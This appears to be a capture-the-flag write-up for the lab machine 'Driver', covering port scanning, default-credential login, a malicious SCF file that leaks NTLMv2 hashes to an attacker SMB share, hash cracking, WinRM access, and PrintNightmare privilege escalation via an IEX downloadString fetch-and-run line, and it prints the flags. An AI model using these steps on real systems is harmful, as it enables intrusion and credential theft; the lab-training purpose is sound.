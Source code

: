 ![Driver.PNG](/assets/Machines/Easy/Driver/Driver.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.11.106
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.11.106
```

**Output**
```bash
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman
```

3. Visit web page

![webpage.PNG](/assets/Machines/Easy/Driver/webpage.PNG)

* Try with default credentials `admin:admin` | `root:root` | `admin:root`

4. Correct default credentials are `admin:admin`
![login.PNG](/assets/Machines/Easy/Driver/login.PNG)

5. Visit option **Firmware Updates**, in this case we can upload **scf** file. Visit [this](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) and create a malicious file

* The reason to upload malicious scf file is to obtain NTLMv2, in this case we can try to upload an icon in share resource and in the moment when user try to load this icon we can obtain yout hash NTLMv2
  
First, configure a maliciuos file 
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Driver]
└─| cat icon.scf  
[Shell]
Command=2
IconFile=\\<Tun0 IP>\<Folder Share>\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Next, crate a share folder with **impacket-smbserver** 
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Driver]
└─| impacket-smbserver <Name of Folder Share> $(pwd) -smb2support
```

Then, **upload scf file**

![hash.PNG](/assets/Machines/Easy/Driver/hash.PNG)

6. Crack this hash with john
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Driver]
└─| john --show ha                           
tony:liltony:DRIVER:aaaaaaaaa:...
```

7. Validate with **crackmapexec** if previous credentials are valid to connect with **winrm**
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Driver]
└─| crackmapexec winrm 10.10.11.106 -u 'tony' -p 'liltony'
```

**Output**
```bash
SMB         10.10.11.106    5985   DRIVER           [*] Windows 10.0 Build 10240 (name:DRIVER) (domain:DRIVER)
HTTP        10.10.11.106    5985   DRIVER           [*] http://10.10.11.106:5985/wsman
WINRM       10.10.11.106    5985   DRIVER           [+] DRIVER\tony:liltony (Pwn3d!)
```

* The credentials are valid! 


8. Connect with **evil-winrm**
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Driver]
└─| evil-winrm -i 10.10.11.106 -u 'tony' -p 'liltony'
```

**Output**
```cmd
*Evil-WinRM* PS C:\Users\tony\Documents> whoami
driver\tony
```

9. Cat **user flag**
```cmd
*Evil-WinRM* PS C:\Users\tony\Desktop> type user.txt
7a703b72141c5377c70494e7b027e4f6
```

---
---
---
### **Privileges Escalation** 💀

1. Use winPEAS to discover a way for escalate privileges (Use python server and certutil.exe to download winPEAS in target machine)
```bash
*Evil-WinRM* PS C:\Windows\Temp> .\winPEASx64.exe
```

**Output**

![winPEAS.PNG](/assets/Machines/Easy/Driver/winPEAS.PNG)

* Visit [this](https://github.com/calebstewart/CVE-2021-1675) to know function of exploit


2. Download exploit in target machine

First, download exploit in your machine and create a http server with python
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Driver]
└─| python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Then, download this in target machine use **certutil.exe**
```bash
*Evil-WinRM* PS C:\Windows\Temp> IEX(New-Object Net.WebClient).downloadString('http://<tun 0 IP>/exploit.ps1')
```

Next, execute this.
```
Invoke-Nightmare -DriverName "Xerox" -NewUser "<User>" -NewPassword "<Password>" 
```

3. With the credentials you created previously, login with **evil-winrm**
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Driver]
└─| evil-winrm -i 10.10.11.106 -u 'EsTX' -p 'EsTX321'
```
> In my case the credentials are `EsTX:EsTX321`


4. The user created previously is in **Administrators Group**
```cmd
*Evil-WinRM* PS C:\Users\EsTX\Documennet user EsTX


...
Local Group Memberships      *Administrators
...
```

5. Cat **root flag**
```bash
*Evil-WinRM* PS C:\Users\EsTX\Documents> type \Users\Administrator\Desktop\root.txt
428d231f64c7d6b5097366452218d514
```